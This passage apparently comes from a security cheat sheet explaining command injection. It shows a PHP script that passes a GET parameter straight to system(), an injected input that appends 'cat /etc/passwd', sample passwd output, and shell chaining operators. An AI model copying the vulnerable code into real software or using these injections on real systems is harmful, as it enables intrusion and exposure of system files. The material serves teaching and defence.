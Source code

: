 The danger of command injection is that it can allow an attacker to execute any command on the system, potentially leading to full system compromise.

**Example of Command Injection with PHP**:    
Suppose you have a PHP script that takes a user input to ping a specified IP address or domain:

```php
<?php
    $ip = $_GET['ip'];
    system("ping -c 4 " . $ip);
?>
```

In the above code, the PHP script uses the `system()` function to execute the `ping` command with the IP address or domain provided by the user through the `ip` GET parameter.

If an attacker provides input like `8.8.8.8; cat /etc/passwd`, the actual command that gets executed would be: `ping -c 4 8.8.8.8; cat /etc/passwd`.

This means the system would first `ping 8.8.8.8` and then execute the `cat /etc/passwd` command, which would display the contents of the `/etc/passwd` file, potentially revealing sensitive information.


### Basic commands

Execute the command and voila :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
...
```


### Chaining commands

In many command-line interfaces, especially Unix-like systems, there are several characters that can be used to chain or manipulate commands. 


* `;` (Semicolon): Allows you to execute multiple commands sequentially.
* `&&` (AND): Execute the second command only if the first command succeeds (returns a zero exit status).
* `||` (OR): Execute the second command only if the first command fails (returns a non-zero exit status).
* `&` (Background): Execute the command in the background, allowing the user to continue using the shell.
* `|` (Pipe):  Takes the output of the first command and uses it as the input for the second command.

```powershell
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```

